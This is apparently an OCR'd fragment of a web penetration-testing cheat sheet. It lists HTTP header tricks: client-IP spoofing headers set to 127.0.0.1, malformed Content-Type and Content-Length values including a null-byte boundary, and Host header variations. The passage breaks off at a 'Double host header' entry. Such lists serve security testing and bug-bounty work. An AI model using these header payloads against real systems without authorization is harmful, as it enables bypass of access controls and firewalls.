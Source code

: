 > X-Client-IP: 127.0.0.1

> X-Real-IP: 127.0.0.1

> True-Client-IP: 127.0.0.1

> CF-Connecting-IP: 127.0.0.1

> X-Cluster-Client-IP: 127.0.0.1

> Fastly-Client-IP: 127.0.0.1

> X-Originating-IP: 127.0.0.1

> X-Remote-IP: 127.0.0.1

> X-Remote-Addr: 127.0.0.1

> X-Host: 127.0.0.1

> X-Forwarded-Host: 127.0.0.1

> X-Forwarded-By: 127.0.0.1

### Content Headers Tricks

- **Content Type**
    
    > Content-Type: 0
    
    > Content-Type: application/another-text/+++x-www-form-urlencoded
    
    > Content-Type: application/json
    
    > Content-Type: application/x-php
    
    > Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
    
- **Content Length**
    
    > Content-Length: 1
    
    > Content-Length: 0
    

### HOST Header Tricks

- **LocalHost**
    
    > Host: localhost
    
- **LowerCase Host Header**
    
    > host: [target.com](http://target.com)
    
- **Without Space Host Header**
    
    > Host:target.com
    
- **Tabbed host header**
    
    > Host: [target.com](http://target.com)
    
- **Double host header**
    